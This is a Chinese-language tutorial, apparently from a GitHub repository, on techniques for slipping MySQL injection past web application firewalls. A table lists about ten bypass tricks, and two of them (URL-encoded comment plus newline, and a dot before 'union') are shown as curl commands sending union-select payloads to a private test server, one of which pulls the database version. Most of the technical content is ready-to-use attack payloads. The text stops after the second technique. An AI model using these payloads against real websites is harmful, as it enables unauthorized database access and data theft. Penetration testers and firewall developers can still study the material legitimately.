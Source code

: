 # mysql注入绕过技巧

| WAF绕过方式 | 过滤绕过方式 |
| - | - | - |
| %23%0d%0a绕过 | |
| .绕过 | | 
| ``绕过 | |
| /***/注释绕过 | |
| /* */注释绕过 | | 
| \N绕过 | | 
| union(select)绕过 | |
| 科学计数法绕过 | |
| union distinctrow select绕过 | |
| {}绕过| |

## WAF绕过

### %23%0d%0a绕过
%0a等价于\n，%0d等价于\r，%23等价于注释符，在控制台操作时，利用回车换行可输入多条语句，那么利用%23%0a%0d，有机会绕过防火墙检测

如，未变形前的语句：
```shell
z2pdeMacBook-Air:~ z2p$ curl "http://10.100.12.6:8008/?id=1 union select 1,2"
```
变形后：
```shell
z2pdeMacBook-Air:~ z2p$ curl "http://10.100.12.6:8008/?id=1%23%0d%0aunion select 1,2"
```
真实利用：
```shell
z2pdeMacBook-Air:~ z2p$ curl "http://10.100.12.6:8008/?id=1%23%0aunion%23%0aselect%23%0a1,version()"
```

#### 原理
如下图，每次的回车，就相当于%0a
![](./mysql注入绕过技巧/pic1.png)

### .绕过
在数字与union中间用.连接，当正则写的不严谨时会出现绕过
变形后：
```shell
z2pdeMacBook-Air:~ z2p$ curl "http://10.100.12.6:8008/?id=1.union select 1,2"
```
